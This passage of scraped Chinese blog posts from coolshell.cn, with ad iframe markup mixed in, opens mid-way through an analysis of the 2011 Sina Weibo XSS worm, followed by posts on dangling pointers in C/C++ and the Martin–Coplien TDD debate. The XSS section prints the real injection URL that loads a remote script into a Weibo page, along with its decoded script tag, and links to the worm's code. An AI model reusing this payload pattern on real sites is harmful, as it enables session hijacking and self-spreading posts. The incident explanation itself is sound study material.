border: 0px; height: 280px;"></iframe>

再说一点，不一定是“记住你的用户名和密码”或是“自动登录”的方法，因为HTTP是无状态的协议，所以，几乎所有的网站都会在你的浏览器上设置cookie来记录状态，以便在其多个网页切换中检查你的登录状态。而现在的浏览器的运行方式是多页面或多窗口运行，也就是说，你在同一个父进程下开的多个页面或窗口里都可以无偿和共享使用你登录状态的。

当然，你不必过于担心访问别的网站，在别的网站里的js代码会自动访问你的微博或是网银。因为浏览器的安全性让js只能访问自己所在网站的资源（你可以引入其它网站的js）。当然，这是浏览器对js做的检查，所以，浏览器并不一定会做这个检查，这就是为什么[IE6是史上最不安全的浏览器](https://coolshell.cn/articles/3921.html)，没有之一。只要你没有在用IE6，应该没有这些问题。

XSS攻击有两种方法，

- 一种就像SQL Injection或CMD Injection攻击一样，我把一段脚本注入到服务器上，用户访问方法服务器的某个URL，这个URL就会把远端的js注入进来，这个js有可能自动进行很多操作。比如这次事件中的帮你发微博，帮你发站内消息等。注入有很多方法，比如：提交表单，更改URL参数，上传图片，设置签名，等等。

- 另一类则是来来自外部的攻击，主要指的自己构造XSS 跨站漏洞网页或者寻找非目标机以外的有跨站漏洞的网页。如当我们要渗透一个站点，我们自己构造一个跨站网页放在自己的服务器上，然后通过结合其它技术，如 社会工程学等，欺骗目标服务器的管理员打开。这一类攻击的威胁相对较低，至少ajax 要发起跨站调用是非常困难的（你可能需要hack浏览器）。

这次新浪微博事件是第一种，其利用了微博广场页面 http://weibo.com/pub/star 的一个URL注入了js脚本，其通过http://163.fm/PxZHoxn短链接服务，将链接指向：

http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=update

<iframe id="aswift_4" name="aswift_4" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=3873836010&amp;adf=3597885141&amp;pi=t.aa~a.425447425~i.31~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684157999&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4914.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bhK36b5c7h549FMz1WnDN5vsjZ8ge4Vm_w_M6QHY7CCTwN_f5CWk5JLogGeKzCzfK7y0ipt&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684158924662&amp;bpp=1&amp;bdt=2758&amp;idt=-M&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C704x280%2C704x280&amp;nras=5&amp;correlator=7264560074563&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=958857972&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=2829&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C44788441%2C44792089&amp;oid=2&amp;psts=ABHeCvhsxdoMuDiDp58j68BloA_BhzkLQGnc30vCbAlzsSzXFLU0Gic6nLz5M9glA9-13-nfPHSsbYoWRhldq6oqadnaoOs&amp;pvsid=3494100411922138&amp;tmod=1738974273&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F25&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=5&amp;uci=a!5&amp;btvi=3&amp;fsb=1&amp;xpc=6ZiaAg6VM6&amp;p=https%3A//coolshell.cn&amp;dtd=45" data-google-container-id="a!5" data-google-query-id="CPTfxfO89_4CFaGQwgodhcQH3w" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

注意，上面URL链接中的其实就是<script src=//www.2kt.cn/images/t.js></script>。

<iframe id="aswift_2" name="aswift_2" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=3873836010&amp;adf=2791398471&amp;pi=t.aa~a.425447425~i.33~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684157999&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4914.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bhK36b5c7h549FMz1WnDN5vsjZ8ge4Vm_w_M6QHY7CCTwN_f5CWk5JLogGeKzCzfK7y0ipt&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684158924662&amp;bpp=1&amp;bdt=2758&amp;idt=-M&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280&amp;nras=3&amp;correlator=7264560074563&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=958857972&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=3176&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C44788441%2C44792089&amp;oid=2&amp;psts=ABHeCvhsxdoMuDiDp58j68BloA_BhzkLQGnc30vCbAlzsSzXFLU0Gic6nLz5M9glA9-13-nfPHSsbYoWRhldq6oqadnaoOs&amp;pvsid=3494100411922138&amp;tmod=1738974273&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F25&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=3&amp;uci=a!3&amp;btvi=1&amp;fsb=1&amp;xpc=LxRbT1W8LU&amp;p=https%3A//coolshell.cn&amp;dtd=16" data-google-container-id="a!3" data-google-query-id="CJ_ww_O89_4CFYbFTAIdL4YGRg" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

攻击者并不一定是2kt.cn的人，因为.cn被国家严格管制（大家不知道coolshell.cn 的备案备了不知有多少次），所以，我个人觉得这个人不会愚蠢到用自己域名来做攻击服务器。

#### 其它

- 初步发现 Chrome 和 Safari 都没中招。IE、Firefox未能幸免。
- 史上最著名的XSS攻击是Yahoo Mail 的[Yamanner ](https://en.wikipedia.org/wiki/Yamanner)蠕虫是一个著名的XSS 攻击实例。早期Yahoo Mail 系统可以执行到信件内的javascript 代码。并且Yahoo Mail 系统使用了Ajax技术，这样病毒javascript 可以的向Yahoo Mail 系统发起ajax 请求，从而得到用户的地址簿，并发送攻击代码给他人。
- 为什么那个用户叫hellosamy，因为[samy](https://en.wikipedia.org/wiki/Samy_(XSS))是第一个XSS攻击性的蠕虫病毒，在MySpace上传播。
- 关于攻击的代码在这里：[06.28_sina_XSS.txt](https://coolshell.cn/wp-content/uploads/2011/06/06.28_sina_XSS.txt.zip) （编码风格还是很不错的）

（全文完）

# 在函数外存取局部变量的一个比喻

#####  [2011年06月28日 ](https://coolshell.cn/articles/4907.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [57 条评论](https://coolshell.cn/articles/4907.html#comments) 23,507 人阅读

在StackOverflow上一这样一个[关于C/C++的问题](http://stackoverflow.com/questions/6441218/can-a-local-variables-memory-be-accessed-outside-its-scope/6445794#6445794)，问问题的人给了一个代码如下：

```
int * foo()
{
    int a = 5;
    return &a;
}

int main()
{
    int* p = foo();
    cout << *p;
    *p = 8;
    cout << *p;
}
```

你可以编译并运行这个代码（编译时会有一个Warning），结果是：5 8。看上去你可以存取一个函数内的局部变量。但这和我们理解的不一样——函数内的变量在函数退出时就被释放了，不应该在外部还可以被引用。当然，对于C/C++熟悉的人都知道其实并不是真正的释放，你依然还可以通过内存地址去进行操作，这是C/C++的内存管理的不安全性——指针可以用来乱指。

这个问题的解答是比较简单的，但是这个问题有一个答案中的[比喻非常精彩](http://stackoverflow.com/questions/6441218/local-variables-memory-can-be-accessed-outside-its-scope/6445794#6445794)。这个比喻是这样的——

你在某个酒店订了一个房，你入住的时候，你放了一本书在这个酒店的抽屉里，但是你走的时候，你忘了这本书。而且，你还没有把这个房间的钥匙还回去。于是，你在未来某个时候，偷偷地回来，打开这个房间的门，你看到了你的书还在里间。当然，还还可以放回别的书。因为，这个酒店管理不会在你走的时候把你留下的书清走，而且，这个酒店的管理的安保措施不是那么严格，因为他信任每一个客人都会遵守管理条例。

在这种情况下，如果你幸运的话，书还会在那里，也可能你的书已经没了。也有可能当你回去的时候，有一个人在那里正在撕你的书，或者酒店把那个抽屉都挪走并变成衣柜，或是整个酒店正在被拆除以改成了一个足球场，而你偷偷摸摸进到施工现场的时候被炸死。

真是很精彩的比喻。这就是C/C++的不安全的地方，也正是Linus说的，[C++是一门恐怖的语言是因为有很多不合格的程序员在使用它](https://coolshell.cn/articles/1724.html)。就像你看到小孩子玩火一样的恐怖。

关于这个事，还有一个比较经典的示例如下—— 函数a的初始化会影响函数b的数组。注意函数a中的 `volatile `关键字。

```
#include <iostream>
using namespace std; 
void a()
{
    volatile int array[10];
    for (int i = 0; i < 10; i++)
        array[i] = i;
}

void b()
{
    int array[10];
    for (int i = 0; i < 10; i++)
        cout << array[i];
}

int main()
{
    a();
    b();
}
```

真是可爱的C/C++。

# BOB大叔和JIM COPLIEN对TDD的论战

#####  [2011年06月27日 ](https://coolshell.cn/articles/4891.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [54 条评论](https://coolshell.cn/articles/4891.html#comments) 29,195 人阅读

今年春节时，我写了一篇《[TDD并不是看上去的那么美](https://coolshell.cn/articles/3649.html)》，在这篇文章中我列举了一些关于使用TDD的一些难点和对TDD的质疑，后来出现了一些争论（可参见那篇文章的评论），以及Todd同学的《[TDD到底美不美](https://coolshell.cn/articles/3766.html)》，还有infoQ中文上的那个[几乎没有营养离线讨论](http://www.infoq.com/cn/articles/virtual-panel-tdd)。今天，有网友给我推来一个英文版infoQ的视频——“[Coplien and Martin Debate TDD, CDD and Professionalism](http://www.infoq.com/interviews/coplien-martin-tdd)”，这是2008年2月18日的视频，视频的主角两个人争论TDD好还是不好，一个是敏捷社区的教主级的人物——Robert Martin（大家称之为“Bob大叔”），另一个是C++，OO，多范式编程的大师[Jim Coplien](https://en.wikipedia.org/wiki/Jim_Coplien)（大家都叫他Cope）。这两个人对TDD的见解有分歧。Coplien的很多观点和我之前的不谋而合，而他自己称他是坚决强烈地站在TDD的对立面上。下面是Jim的原话：

> I have adopted a very strong position against what particularly the XP community is calling test driven development.

InfoQ的视频很多时候相当的不给力，就像有前列腺的患者撒尿一样，半天都挤不出一滴。不过，好在那里有这两个人对话的摘录。在这里，我给大家摘要一下：

——————————————————正文分割线————————————————————

Coplien首先让Uncle Bob定义了一下TDD，Uncle Bob说明了他的三个法则：（敏捷的同学一定不陌生）

1. 一个测试驱动的程序员，其不会在写出一个测试失败的Unit Test前，去写一句可用在生产线上的代码。（没有测试之前不要写任何功能代码）
2. 在编写用于生产线上代码之前，不写过多的测试失败的Unit Test。（只编写刚好能体现一个失败情况的测试代码）
3. 在现有代码通过Unit Test前，不写更多的用于生产线上的代码。（只编写恰好能通过测试的功能代码）

Coplien说他有意见的不是这三个法则，而是因为这个三个法则是孤立说出来的。Coplien说他和一些咨询师或是Scrum Master参与过很多的项目，他们发现这些项目都有两个问题：

1. 他们使用TDD的时候，软件没有一个架构或是framework。当然，Kent Beck说——TDD可以驱使你去做架构。但是，**TDD和Unit Test 是一回事吗？**Unit Test是一个伟大的事，尤其是当你去写API和类库的时候。今天XP所说的TDD和UT很不一样。如果你使用TDD来驱动你的软件系统架构，那么，**基本上来说，三个迭代以后，你开发的软件就会crash掉，而且无法再往前开发**。 因为什么？因为连软件团队自己都受不了这三个迭代出来的架构，而且你还会发现，你根本没去去重构。
2. 第二个问题是，TDD这种方法破坏了GUI（图形界面），就算是Kent也说：“**你永远不可以在一个漂亮的界面后面隐藏一个糟糕的架构**”，Coplien强烈地相信软件的架构是通过界面来发出其光芒。他觉得如果没有一个好的软件架构，这个会影响用户的操作。

Coplien接着说，如果我们使用Uncle Bob的三条法则，我们也许没有什么问题，**但Coplien想告诉大家另一个非常重要的事，那就是软件架构。并说：“我根本不接受TDD是软件专业化实践的论点”**。


Bob大叔说，让我们回到99年，那时的敏捷社区觉得软件架构是无关的，不需要软件架构，只需要做一堆tests，做一堆stories，以及足够快的迭代，这样就可以让那些代码魔幻式地拼装起来，这就是horse shit。对于大多数的敏捷拥护者来说，这的确是愚蠢的。今天你再和Knet说这个事，他也会说那不过是一种说法。

<iframe id="aswift_4" name="aswift_4" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=3572532227&amp;adf=1336471705&amp;pi=t.aa~a.425447425~i.21~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684158768&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4891.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bhYQ8YQBH_jiApIcO4KnVePAgrJxI62UTBFOeOZEUBGKXr9nqkxku2a3TGjoOXTo5WGGyZt&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684158954028&amp;bpp=1&amp;bdt=1832&amp;idt=-M&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C704x280&amp;nras=4&amp;correlator=6266085953901&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=1921792376&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=2410&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=600&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31071259%2C44782467%2C44788441%2C44790154&amp;oid=2&amp;psts=ABHeCvg7M-dVZDhJxU4kCpZsFIArYiilJlPi8RYZqbDg7rERWofQT40EKdGi97a27Wfz3x17Cil-thrV0PFjqCTkk84Ya0I&amp;pvsid=1032637006097339&amp;tmod=1738974273&amp;uas=0&amp;nvt=2&amp;ref=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4891.html&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=5&amp;uci=a!5&amp;btvi=2&amp;fsb=1&amp;xpc=1ofZCv4ay8&amp;p=https%3A//coolshell.cn&amp;dtd=48" data-google-container-id="a!5" data-google-query-id="CPWKxoG99_4CFUoDXAodcjEJNQ" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

Coplien回应到，实际上，Knet在解释XP的时候，在他的书131页的位置说过，“是的，你得做些前期的架构，但也别把自己搞乱了”。

Bob大叔把话题转回来，继续聊关于架构方面的事，他说软件的架构很重要，他也写很一些关于架构的书，他说他也是一个架构方面的怪才，但是他认为架构自己并不会形成软件的所有的外表。他觉得好的软件架构和设计能力应该出现在若干次迭代之后。他觉得你在架构软件的时候，你会创造一些东西，也会破坏一些东西，并且会在几次迭代中做一些试验性的工作，来尝试一下不同的架构。**在2到3次迭代以后，你可以知道那一种架构是对的，这样，你可以在后面的迭代中进行调整 。因此，他认为架构是需要进化和发展的，而不会因为被可执行的代码所形成，也不会因为你所写的测试而形成**。

Coplien赞同架构进化的观点，而且他相信软件的架构的演变和进化不是因为你写的代码，也不是因为Use Case，也不是告诉你你的软件需求的范围和其中的关系，但是如果你做的方法是以增量式的，以用户驱动式的，而你却在和用户沟通时没有一些前期的业务知识，那么这一定是相当有风险的，并且你一定会把事搞砸的。

<iframe id="aswift_6" name="aswift_6" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=3572532227&amp;adf=2189257412&amp;pi=t.aa~a.425447425~i.27~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684158768&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4891.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bhYQ8YQBH_jiApIcO4KnVePAgrJxI62UTBFOeOZEUBGKXr9nqkxku2a3TGjoOXTo5WGGyZt&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684158954028&amp;bpp=1&amp;bdt=1832&amp;idt=1&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C704x280%2C704x280&amp;nras=5&amp;correlator=6266085953901&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=1921792376&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=3160&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=600&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31071259%2C44782467%2C44788441%2C44790154&amp;oid=2&amp;psts=ABHeCvg7M-dVZDhJxU4kCpZsFIArYiilJlPi8RYZqbDg7rERWofQT40EKdGi97a27Wfz3x17Cil-thrV0PFjqCTkk84Ya0I&amp;pvsid=1032637006097339&amp;tmod=1738974273&amp;uas=0&amp;nvt=2&amp;ref=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4891.html&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=7&amp;uci=a!7&amp;btvi=3&amp;fsb=1&amp;xpc=4oN7ElHCad&amp;p=https%3A//coolshell.cn&amp;dtd=52" data-google-container-id="a!7" data-google-query-id="CLnixoG99_4CFQRHvAodNmAKIw" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

Coplien接着说，他在Knet早期提到TDD的时候和Knet时，提到YAGNI（陈皓注：You Aren’t Gonna Need It，XP的一个法则，也就是只做最简单的事）时，Kent说到：“让我们来做一个银行帐户，一个储蓄帐户”，储蓄帐户其实就是对余额进行一些加加减减的事，就像一个计算器一样。Copilen继续解释到，但是如果你要做一个真正的银行系统，你的软件架构根本不可能从一个储蓄帐户的对象（计算器）重构出来。因为储蓄帐户根本就不是一个对象，其是一个流程，后面有一个数据库的查帐索引事务，还有存款保证多和利息，还有一些转帐功能。就算是这样，这也只是用户的功能，你还需要支持税务人员和精算会计师等这些人，**这会让银行系统成为一个错综复杂的软件架构，这绝对不是你可以用迭代干出来的事。当然，Bob大叔是可以的，因为他有40年的银行系统的经验。但是Bob大叔你的这40年可真不敏捷啊**。

Coplien接着说， 因为Bob大叔可以在软件前期做很多很重要的决定，这让得后面的事变得相对比较简单。Coplien根本不相信只要你把代码往那一放，在上面披上一层皮，再设置好一些角色，设置好接口，在文档里写上整个业务结构，而你只有在有人花钱的时候你才会在其中填充进真正的代码，反之就违反了你的YAGNI原则。所以，你只是在你需要的时候做你要做的事，但你却还是要提前得到你的软件架构，否则你一定会把你自己逼进死角的。

Bob大叔辩解到，我说的可能和你说的这个有点不同。我们应该不会像你所说的往接口中写一些抽象成员函数，而是创建一些有抽象接口的对象。当然，我不会把一下子为这个对象装载上一堆方法。那些是我需要使用测试驱动或是需求驱动来做的事，我还会随时随地在看是否哪里软件架构可以让我拆分接口。

<iframe id="aswift_2" name="aswift_2" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=3572532227&amp;adf=1336471705&amp;pi=t.aa~a.425447425~i.33~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684158768&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4891.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bhYQ8YQBH_jiApIcO4KnVePAgrJxI62UTBFOeOZEUBGKXr9nqkxku2a3TGjoOXTo5WGGyZt&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684158954028&amp;bpp=1&amp;bdt=1832&amp;idt=-M&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280&amp;nras=3&amp;correlator=6266085953901&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=1921792376&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=4124&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=600&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31071259%2C44782467%2C44788441%2C44790154&amp;oid=2&amp;psts=ABHeCvg7M-dVZDhJxU4kCpZsFIArYiilJlPi8RYZqbDg7rERWofQT40EKdGi97a27Wfz3x17Cil-thrV0PFjqCTkk84Ya0I&amp;pvsid=1032637006097339&amp;tmod=1738974273&amp;uas=0&amp;nvt=2&amp;ref=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4891.html&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=3&amp;uci=a!3&amp;btvi=1&amp;fsb=1&amp;xpc=d5e9KekEdZ&amp;p=https%3A//coolshell.cn&amp;dtd=21" data-google-container-id="a!3" data-google-query-id="CJW-xIG99_4CFYi2vAodT6sOJg" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

